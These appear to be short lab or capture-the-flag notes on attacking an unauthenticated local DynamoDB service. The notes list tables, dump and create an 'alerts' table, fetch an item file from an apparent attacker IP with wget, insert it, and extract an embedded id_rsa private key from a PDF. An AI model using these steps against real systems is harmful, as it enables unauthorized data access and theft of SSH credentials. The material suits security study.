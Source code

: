 # Enumeration
## List tables :
```bash
aws dynamodb list-tables --endpoint-url http://localhost:4566 --no-sign-request
```

## Dump table :
```bash
aws dynamodb scan --table-name alerts --endpoint-url http://localhost:4566 --no-sign-request
```

## Create table:
```bash
aws dynamodb create-table \
    --table-name alerts \
    --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S \
    --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE \
    --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
    --tags Key=Owner,Value=blueTeam \
    --endpoint-url http://localhost:4566 --no-sign-request 
```

## Fetch item.json file:
```bash
rm item.json && wget http://10.10.14.10:8000/item.json
```
## Put item in the table:
```bash
aws dynamodb put-item \
    --table-name alerts \
    --item file://item.json \
    --return-consumed-capacity TOTAL \
    --return-item-collection-metrics SIZE \
    --endpoint-url http://localhost:4566 --no-sign-request 
```
## Extract embedded attached file from pdf.
```bash
 pdfdetach -saveall id_rsa.pdf
```